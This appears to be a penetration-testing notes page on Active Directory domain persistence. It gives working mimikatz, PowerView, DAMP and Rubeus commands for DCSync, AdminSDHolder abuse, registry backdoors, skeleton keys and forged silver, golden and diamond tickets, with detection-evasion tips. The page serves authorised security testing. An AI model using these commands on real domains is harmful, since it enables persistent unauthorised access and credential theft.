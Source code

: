 ## Domain Persistence

In a longer engagement, it may be beneficial to obtain recurring access to high-level domain users accounts to persist if your access gets lost. Domain persistence methods should only be carried out after confirming the client is happy with it, as they drastically will reduce the security of the domain/forest by implementing a "backdoor" of some sorts.

### DCSync

With the `Replicating Directory Changes` ACE, it is possible to replicate domain information and thus dump out the `krbtgt` hash of the root domain account. This is generally only possible by Domain Controllers, Domain Administrators and Enterprise Administrators.

With access to a DA account, we can provide the rights to a user using Powerview:

```powershell
# Provide Neo with Dcsync rights
Add-DomainObjectAcl -TargetIdentity "DC=MATRIX,DC=LOCAL" -PrincipalIdentity Neo -Rights DCSync
```

Then using mimikatz perform the attack:

```powershell
lsadump::dcsync /domain:MATRIX.local /user:MATRIX\krbtgt
```

### AdminSDHolder

This stands for Admin Security Descriptor Holder. Every hour, the Security Descriptor Propagator (SDPROP) service compares the Access Control Lists of protected groups and members with the Access Control Lists of the `AdminSDHolder` and any differences get overwritten on to their ACLs. This is a mechanism by which to control ACLs for certain privileged groups.

Using a Domain Administrator account, we can modify the `AdminSDHolder` ACL to give `GenericAll` to the Neo user using Powerview.

```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Neo -Rights All
```

We can then use Invoke-SDPropagator to force reload of the ACL, replicating our malicious ACL over all the protected groups.

 https://github.com/theyoge/AD-Pentesting-Tools/blob/main/Invoke-SDPropagator.ps1 

```powershell
Invoke-SDPropagator -showProgress -timeoutMinutes 1
```

### Remote Registry Backdoors

Using the DAMP project from harmj0y, we can modify discretionary access control lists (DACLs) to enable a user to extract remote secrets from a target. 

 https://github.com/HarmJ0y/DAMP 

```powershell
# Modify the DACL to all Neo to extract secrets from the target machine
Add-RemoteRegBackdoor -ComputerName dc04 -Trustee MATRIX\Neo

# Get the machine account hash
Get-RemoteMachineAccountHash -ComputerName dc04
```

### Skeleton Keys

I'd imagine this is one of the least used methods of persistence due to the potential side-effects. Allows all users to login with the password `mimikatz` by patching LSASS to hijack the NTLM and Kerberos authentication flows.

```powershell
mimikatz !misc::skeleton
```

### Silver Tickets

A Silver Ticket is a forged TGS, signed using the secret material (RC4/AES keys) of a machine account. You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence (until the computer account password changes, which is every 30 days by default).

Silver and Golden (below) tickets can be generated "offline" and imported into your session. This saves executing Mimikatz on the target unnecessarily which is better OPSEC. Generating both silver and golden tickets can be done with the Mimikatz `kerberos::golden` module.

On your attacking machine:

```powershell
kerberos::golden /user:Administrator /domain:MATRIX.LOCAL /sid:S-1-5-21-3619591028-1129495842-3952564 /target:fs01 /service:cifs /aes256:5c9cc0ef38c51bab5a2d2ece608181fb492ea55f61f055f1dbabf31e0d787aac /ticket:fs01-cifs.kirbi
```

### Golden Tickets

A Golden Ticket is a forged TGT, which gets encrypted with the domain's krbtgt account. In contrast to a Silver Ticket, which can be used to impersonate any user, but is limited the service and machine it targets, Golden Ticket's can be used to impersonate any user, to any service, on any machine in the domain.

`krbtgt` passwords are also never changed automatically and require a sysadmin to manually update them, meaning the persistence could be as long as that occurs for. Also, one previous `krbtgt` is stored for redundancy, meaning they actually have to update the password twice to remove this persistence method.

🚩 Note: The AES key below is from the krbtgt account. Using RC4 is also possible, but poor opsec as it's rarely used in modern environments. 🚩

```powershell
kerberos::golden /user:Administrator /domain:MATRIX.LOCAL /sid:S-1-5-21-3619591028-1129495842-3952564 /aes256:5c9cc0ef38c51bab5a2d2ece608181fb492ea55f61f055f1dbabf31e0d787aac /ticket:golden.kirbi
```

🚩 Mimikatz will automatically generate a ticket for 10 years unless you specify the `/startoffset /endin /renewmax` parameters. Try to line it up with the existing policy using `Get-DomainPolicy | select -expand KerberosPolicy`! 🚩


### Diamond Tickets

Diamond tickets are a variant of golden tickets aimed at reducing detection rates and indicatiors of compromise. Golden tickets are forged offline and passed to a logon session. TGT's aren't tracked by the Domain Controller, and thus, they accept them blindly if they conform to the domains constraints and are encrypted by the `krbtgt` hash. This has led to detection tactics looking for TGS-REQs that have no prior AS-REQ, as they've been generated at a point later than the point of the AS-REQ. 

Diamond tickets modify an existing TGT issued from a DC to add an element of legitimacy. This can be done using Rubeus. The ticket can be output and then saved to a .kirbi file to re-use at a later date. 

```powershell
C:\Rubeus.exe diamond /tgtdeleg /ticketuser:Neo /ticketuserid:1001 /groups:512 /krbkey:5c9cc0ef38c51bab5a2d2ece608181fb492ea55f61f055f1dbabf31e0d787aac /nowrap 
```